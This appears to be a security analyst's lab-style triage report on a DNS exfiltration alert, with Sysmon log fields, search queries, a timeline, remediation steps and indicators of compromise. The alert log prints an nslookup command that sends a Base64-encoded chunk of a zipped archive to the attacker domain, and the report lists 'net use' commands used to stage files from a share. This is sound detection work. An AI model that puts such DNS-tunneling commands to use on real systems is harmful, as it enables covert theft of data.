




# Malicious Activity — DNS Exfiltration via `haz4rdw4re.io`

**Verdict:** True Positive — Data Staging and Exfiltration via DNS Tunneling
**Affected host:** `win-3450`
**User:** `michael.ascot`

## Alert



```yaml
datasource: sysmon
timestamp: 08/27/2026 18:10:06.849
event.code: 1
host.name: win-3450
process.name: nslookup.exe
process.pid: 5520
process.parent.pid: 3728
process.parent.name: powershell.exe
process.command_line: "C:\Windows\system32\nslookup.exe" UEsDBBQAAAAIANigLlfVU3cDIgAAAI.haz4rdw4re.io
process.working_directory: C:\Users\michael.ascot\downloads\exfiltration\
event.action: Process Create (rule: ProcessCreate)
```

## Investigation

### Step 1 — Confirm the process chain and command-line execution for parent PID 3728



**Findings:** The attacker mapped a sensitive network share of financial records using `net use Z: \\FILESRV-01\SSF-FinancialRecords`. Exactly one minute later, they cleaned up their tracks by deleting the network drive mapping (`net use Z: /delete`). Following this, repeated nslookup queries were executed against the external domain `haz4rdw4re.io`, indicating a DNS-based data exfiltration pattern.

### Step 2 — Identify files created within the working directory (`C:\Users\michael.ascot\downloads\exfiltration\`)

**Query:**
```
host.name="win-3450" event.code=11 "*exfiltration*"
```



**Findings:** Files `InvestorPresentation2023.ppt` and `ClientPortfolioSummary.xlsx` were created and subsequently compressed into `exfilt8me.zip` within the exfiltration directory. This activity occurred between `2026-08-27 17:08:08.849` and `2026-08-27 17:09:06.849`—precisely matching the window when the network share was mapped to Z: and subsequently cleaned up.

### Step 3 — Scope the incident across other endpoints in the environment

**Query:**
```
index=* process.command_line="*haz4rdw4re.io*" | stats count by host.name
```

**Findings:** At the time of analysis, communication and DNS requests targeting `haz4rdw4re.io` were isolated exclusively to `win-3450`.

## Case Report

### Time of Activity
- **Start Time:** 2026-08-27 17:08:08.849 UTC
- **End Time / Alert Time:** 2026-08-27 18:10:06.849 UTC

### List of Affected Entities
- **Host / Workstation:** win-3450
- **Compromised User Account:** michael.ascot
- **Internal Network Share:** `\\FILESRV-01\SSF-FinancialRecords` (Temporarily mapped to local drive Z:)

### Staged / Exfiltrated Artifacts
- `InvestorPresentation2023.ppt`
- `ClientPortfolioSummary.xlsx`
- `C:\Users\michael.ascot\downloads\exfiltration\exfilt8me.zip`

### Reason for Classifying as True Positive
- **Unauthorized Data Access & Collection:** The compromised user account `michael.ascot` mounted an unauthorized network share (`\\FILESRV-01\SSF-FinancialRecords`), harvested sensitive financial presentations and client portfolios, compressed them into `exfilt8me.zip`, and promptly unmounted the drive (Z:) within a one-minute window to eliminate obvious mount traces.
- **Confirmed Active Exfiltration via DNS Tunneling:** `powershell.exe` (PID 3728) repeatedly invoked `nslookup.exe` (PID 5520) targeting subdomains of `haz4rdw4re.io`. The structure of the query payload contains Base64-encoded chunks corresponding to the compressed archive, confirming active data exfiltration through covert DNS channels.

### Recommended Remediation Actions
1. Isolate host `win-3450` from the network immediately to halt ongoing DNS exfiltration.
2. Disable active sessions and reset credentials for the compromised user account `michael.ascot`.
3. Block `haz4rdw4re.io` and all associated resolved domains/IP addresses at the perimeter firewall and internal DNS resolvers.
4. Investigate the initial access vector that allowed the threat actor to compromise `win-3450` and execute commands under the user profile.
5. Preserve endpoint logs, PowerShell history, and DNS traffic records for thorough forensic analysis.

### List of Attack Indicators

**Domains & Infrastructure**
- `haz4rdw4re.io`

**Network Shares**
- `\\FILESRV-01\SSF-FinancialRecords`

**File Paths & Archives**
- `C:\Users\michael.ascot\downloads\exfiltration\`
- `C:\Users\michael.ascot\downloads\exfiltration\exfilt8me.zip`
- `InvestorPresentation2023.ppt`
- `ClientPortfolioSummary.xlsx`

**Commands & Process Artifacts**
- `net use Z: \\FILESRV-01\SSF-FinancialRecords`
- `net use Z: /delete`
- `C:\Windows\system32\nslookup.exe`

## Lesson Learned

During this triage, I initially overlooked identifying the root parent process that spawned `powershell.exe` (PID 3728). Additionally, leveraging Windows Event ID 4104 (PowerShell Script Block Logging) by examining the message field would provide deeper visibility into the exact script structure used to automate the DNS chunking process. Future investigations should incorporate script block log analysis earlier to fully map the attacker's execution mechanics.
